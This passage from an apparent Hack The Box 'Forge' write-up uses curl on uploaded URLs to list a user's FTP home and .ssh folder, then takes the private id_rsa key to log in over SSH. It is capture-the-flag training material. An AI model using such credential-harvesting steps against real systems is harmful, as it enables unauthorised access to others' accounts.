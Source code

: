 When redirected, we can see the contents of the FTP server:

```
$ curl http://forge.htb/uploads/7iZvhkJMSjbby5oatOfe
drwxr-xr-x    3 1000     1000         4096 Aug 04  2021 snap
-rw-r-----    1 0        1000           33 May 07 14:26 user.txt
```

This looks like the user's directory, so let's check whether there's a `.ssh` folder present.&#x20;

```
$ curl http://forge.htb/uploads/EvkwW5i3ganDEIzW2doi
-rw-------    1 1000     1000          564 May 31  2021 authorized_keys
-rw-------    1 1000     1000         2590 May 20  2021 id_rsa
-rw-------    1 1000     1000          564 May 20  2021 id_rsa.pub
```

We can grab the `id_rsa` flag through this and SSH in as `user`.&#x20;

<figure><img src="../../../.gitbook/assets/image (1022).png" alt=""><figcaption></figcaption></figure>

Grab the user flag.&#x20;

## Privilege Escalation

